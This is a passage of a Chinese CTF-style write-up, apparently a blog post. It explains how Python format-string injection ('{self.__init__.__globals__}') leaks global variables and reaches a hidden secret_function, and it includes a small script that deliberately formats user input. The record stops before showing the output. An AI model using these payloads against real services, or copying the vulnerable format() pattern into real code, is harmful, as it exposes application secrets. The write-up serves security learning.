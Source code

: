 >Alpha版本的产品的严重缺陷基本完成修正并通过复测，仍然需要完整的功能测试，但是可以满足一般需求。


利用python的格式化字符串测试：

```
{self.__init__.__globals__}
```


![](https://img-blog.csdnimg.cn/20210427214048711.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)

请注意，这里有一个secret_function！

起初，我尝试像这样访问它：
```
{self.__init__.__globals__.secret_function}
```

但是找回了错误。最终，我了解到我需要使用方括号，因为这`__globals__`是一本字典。
```
{self.__init__.__globals__[secret_function]}
```
但这只是返回一个空白页。

事后看来，这是有道理的，因为该对象一定不能具有字符串表示形式，否则在我们转储出来时它会向我们显示它__globals__。

如果我尝试调用此函数：
```
{self.__init__.__globals__[secret_function]()}
```
我回来了一个错误。


我从上一页复制了一些示例代码，并对其进行了一些修改，以便可以在本地使用。

```python
import sys

def secret_function():
    flag = 'wow'
    return flag

class TEST():
    def __init__(self):
        self.testValue = 'test'

    def renderHTML(self, templateHTML, text):
        return (templateHTML.format(self=self, text=text))

if __name__ == '__main__':
    if len(sys.argv) != 2:
        print("Usage : python3 "+sys.argv[0]+" TEMPLATE CONTENT")
    else :
        a = TEST()
        print(a.renderHTML(sys.argv[1], 'foo'))
```

然后，我可以像这样在本地调用它：
```
python3 crack.py '{self.__init__.__globals__}'
```
并得到以下输出：
